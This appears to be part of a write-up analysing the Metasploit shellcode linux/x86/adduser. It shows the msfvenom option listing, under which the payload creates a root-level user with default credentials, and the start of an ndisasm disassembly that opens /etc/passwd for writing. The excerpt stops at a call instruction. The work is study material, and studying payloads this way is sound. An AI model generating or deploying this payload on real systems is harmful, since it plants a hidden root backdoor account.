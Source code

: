 # Analysis of three payloads of my choice - part 3


##  linux/x86/adduser

I decided to analyze as third shellcode linux/x86/adduser.
Firstly, let's have a look to the basic options for the shellcode generation.

```
> msfvenom -p linux/x86/adduser  --list-options

Options for payload/linux/x86/adduser:
=========================


       Name: Linux Add User
     Module: payload/linux/x86/adduser
   Platform: Linux
       Arch: x86
Needs Admin: Yes
 Total size: 97
       Rank: Normal

Provided by:
    skape <mmiller@hick.org>
    vlad902 <vlad902@gmail.com>
    spoonm <spoonm@no$email.com>

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
PASS   metasploit       yes       The password for this user
SHELL  /bin/sh          no        The shell for this user
USER   metasploit       yes       The username to create

Description:
  Create a new user with UID 0
```

Let's generate the payload and disassemble it with ndisasm.

```
> msfvenom -p linux/x86/adduser -f raw | ndisasm -b32 -

Payload size: 97 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E828000000        call 0x53
```